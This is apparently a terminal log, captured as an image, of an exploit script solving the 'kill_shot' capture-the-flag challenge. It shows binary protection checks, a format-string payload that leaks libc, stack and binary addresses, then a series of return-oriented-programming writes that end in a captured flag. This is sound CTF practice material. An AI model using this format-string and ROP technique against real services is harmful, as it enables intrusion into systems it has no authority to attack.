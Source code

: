 ```
-> % ./exploit.py 
[*] '/home/user/Documents/ctf/killshot/kill_shot'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/user/Documents/ctf/killshot/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/user/Documents/ctf/killshot/ld-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to bin.q21.ctfsecurinets.com on port 1338: Done
[*] Paused (press any to continue)
%25$p%16$p%17$p 
[+] libc base addr: 0x7f02f073e000
[+] rbp stack leak: 0x7ffc47118af0
[+] bin base addr: 0x5654b46b1000
[*] Loading gadgets for '/home/user/Documents/ctf/killshot/libc.so.6'
[+] wrote 0x7f02f086e889 to 0x7ffc47118af8
[+] wrote 0x7 to 0x7ffc47118b00
[+] wrote 0x1000 to 0x7ffc47118b08
[+] wrote 0x7f02f075f55f to 0x7ffc47118b10
[+] wrote 0x5654b48b3000 to 0x7ffc47118b18
[+] wrote 0x7f02f0859c00 to 0x7ffc47118b20
[+] wrote 0x7f02f086e889 to 0x7ffc47118b28
[+] wrote 0x1000 to 0x7ffc47118b30
[+] wrote 0x5654b48b3000 to 0x7ffc47118b38
[+] wrote 0x7f02f075f55f to 0x7ffc47118b40
[+] wrote 0x0 to 0x7ffc47118b48
[+] wrote 0x7f02f084e180 to 0x7ffc47118b50
[+] wrote 0x5654b48b3000 to 0x7ffc47118b58
[*] Switching to interactive mode
flag{this_really_needs_a_kill_shot!_cc5dcc74acd62fa74899efaff22d8f79}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

